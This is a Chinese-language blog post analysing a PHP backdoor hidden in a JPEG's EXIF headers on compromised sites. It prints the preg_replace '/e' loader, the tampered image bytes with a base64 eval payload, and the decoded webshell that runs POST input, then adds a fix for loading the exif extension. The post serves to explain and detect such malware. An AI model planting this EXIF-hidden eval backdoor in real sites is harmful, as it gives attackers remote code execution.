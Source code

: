 ```yaml
---
layout: post
category: 黑客技术
tags: php 
title1: php 图片木马
keywords: php 图片木马
description: 这是一个非常有趣的后门，它并没有依靠正常模式去隐藏起内容(比如 base64/gzip 编码)，但是它却把自己的数据隐藏在JPEG图片的EXIT头部中了。它也使用exif_read_data和preg_replace两个PHP函数来读取EXIF头部和执行。
---
```


### 细节

这个后门可分为两部分。第一部分是 exif_read_data 函数读取图片头部，preg_replace 函数来执行内容。下面是我们在被攻破网站上发现的代码：

	$exif = exif_read_data('/homepages/clientsitepath/images/stories/food/bun.jpg');
	preg_replace($exif['Make'],$exif['Model'],'');

这两个函数本身是无害滴。exif_read_data 函数常用来读取图片，preg_replace 函数是替代字符内容。不过，preg_replace 函数函数有个隐藏并微妙的选项，如果你传入 “/e”，它会执行 eval() 中的内容，就不是去查询/替代了。
<br>

所以我们在查看bun.jpg文件时，发现后门的第二部分：

	ÿØÿà^@^PJFIF^@^A^B^@^@d^@d^@^@ÿá^@¡Exif^@^@II*^@^H^@^@^@^B^@^O^A^B^@^F^@^@^@&^@^@^@^P^A^B^@m^@^@^@,^@^@^@^@^@^@^@/.*/e^@ eval ( base64_decode("aWYgKGl zc2V0KCRfUE9TVFsie noxIl0pKSB7ZXZhbChzd
	HJpcHNsYXNoZXMoJF9QT1NUWyJ6ejEiXSkpO30='));
	@ÿì^@^QDucky^@^A^@^D^@^@^@<^@^@ÿî^@^NAdobe^

这个文件用以常见的头部开始，但是在 ”make” 头部中混入了奇怪的关键字 ”/.*/e” 。有了这个执行修饰符， preg_replace 会执行 eval() 中传入的任意内容。

<br>

事情变得开始有趣了……
<br>

如果咱们继续来看看 EXIF 数据，我们能发现， “eval ( base64_decode”隐藏在 ”Model“ 头部。把这些放在一起看，咱们就知道怎么回事了。攻击者是从 EXIF 中读取 Make 和 Model 头部信息，然后传入到 preg_replace 函数。只要我们修改 $exif['Make'] 和 $exif['Model'] ，就得到了最终的后门。

	preg_replace ("/.*/e", ,"@ eval ( base64_decode("aWYgKGl ...");

解码后我们可以看到是执行 $_POST["zz1"] 提供的内容。完整解码后的后面在这里。

	if (isset( $_POST["zz1"])) { eval (stripslashes( $_POST["zz1"]..

另外一个有意思的是，虽然 bun.jpg 和其他图片文件被修改了，但然后能加载并正常工作。实际上，在这些被攻破的站点，攻击者修改了站点上一个合法并之前就存在的图片。这是一种奇特的隐藏恶意软件的方法。

### 附：

>Call to undefined function exif_read_data()

读取图片Exif信息的程序就报出了：Call to undefined function exif_read_data()

找到解决方案：

>extension=php_exif.dll 将其加载顺序 改为在

>extension=php_mbstring.dll 之后....
